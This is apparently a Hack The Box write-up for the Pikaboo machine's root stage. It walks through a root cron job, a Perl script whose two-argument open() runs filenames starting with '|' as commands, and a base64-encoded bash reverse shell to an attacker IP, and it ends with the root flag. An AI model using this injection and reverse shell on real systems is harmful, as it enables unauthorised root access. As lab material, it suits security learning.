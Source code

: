 # # `Enumeration` -

```bash
www-data@pikaboo:/home/pwnmeow$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root /usr/local/bin/csvupdate_cron
```

We see a crontab running as root let's check that out -

```bash
www-data@pikaboo:/usr/local/bin$ cat csvupdate_cron 
#!/bin/bash

for d in /srv/ftp/*
do
  cd $d
  /usr/local/bin/csvupdate $(basename $d) *csv
  /usr/bin/rm -rf *
done
```

it is just a simple bash script to run another script /usr/local/bin/csvupdate with the filename as the parameter for the files in FTP and now as we have access to FTP we might be able to exploit it.

- Its taking basename
- The file extension should be .csv

### /usr/local/bin/csvupdate -

```perl
www-data@pikaboo:/usr/local/bin$ cat csvupdate                                                                                                                
#!/usr/bin/perl                                                                                                                                               
                                                                                                                                                              
##################################################################                                                                                            
# Script for upgrading PokeAPI CSV files with FTP-uploaded data. #                                                                                            
#                                                                #                                                                                            
# Usage:                                                         #                                                                                            
# ./csvupdate <type> <file(s)>                                   #                                                                                            
#                                                                #                                                                                            
# Arguments:                                                     #                                                                                            
# - type: PokeAPI CSV file type                                  #                                                                                            
#         (must have the correct number of fields)               #                                                                                            
# - file(s): list of files containing CSV data                   #                                                                                            
##################################################################                                                                                            
                                                                                                                                                              
use strict;                                                                                                                                                   
use warnings;                                                                                                                                                 
use Text::CSV;                                                                                                                                                
                                                                                                                                                              
my $csv_dir = "/opt/pokeapi/data/v2/csv";
<SNIP>
if($#ARGV < 1)
{
  die "Usage: $0 <type> <file(s)>\n";
}

my $type = $ARGV[0];
if(!exists $csv_fields{$type})
{
  die "Unrecognised CSV data type: $type.\n";
}

my $csv = Text::CSV->new({ sep_char => ',' });

my $fname = "${csv_dir}/${type}.csv";
open(my $fh, ">>", $fname) or die "Unable to open CSV target file.\n";

shift;
for(<>)
{
  chomp;
  if($csv->parse($_))
  {
    my @fields = $csv->fields();
    if(@fields != $csv_fields{$type})
    {
      warn "Incorrect number of fields: '$_'\n";
      next;
    }
    print $fh "$_\n";
  }
}

close($fh);
```

# Exploit -
Refrences -
- [Perl Open Injection](https://stackoverflow.com/questions/26614348/perl-open-injection-prevention)
- [Two Argument](https://wiki.sei.cmu.edu/confluence/pages/viewpage.action?pageId=88890543)

Perl’s `open` command can, for some crazy reason, be used to execute code. If a command starts with `|`, then the rest of the command will be executed, with anything written to the resulting handle being passed to the executed command’s STDIN. If the filename ends with `|`, then the stuff before is executed, and the output of the execution can be read from the filehandle.

The exploit basically is that if the filename starts with '|' then the rest of file name will be executed as command rather than the file name itself.

Testing with ping -

![[Pasted image 20211211025237.png]]

## Getting a Reverse Shell -

Using base64 to encode our reverse shell to avoid bad characters

```bash
root@napster:~/Documents/HTB/Pikaboo# echo 'bash -i >& /dev/tcp/10.10.14.8/9001 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44LzkwMDEgMD4mMQo=
````

And starting our listener

![[Pasted image 20211211031014.png]]

```bash
cd /root/
root@pikaboo:~# ls
ls
root.txt
vsftpd.log
root@pikaboo:~# cat root.txt
cat root.txt
9ef004bdf720b6919d3e84a06bdef95f
```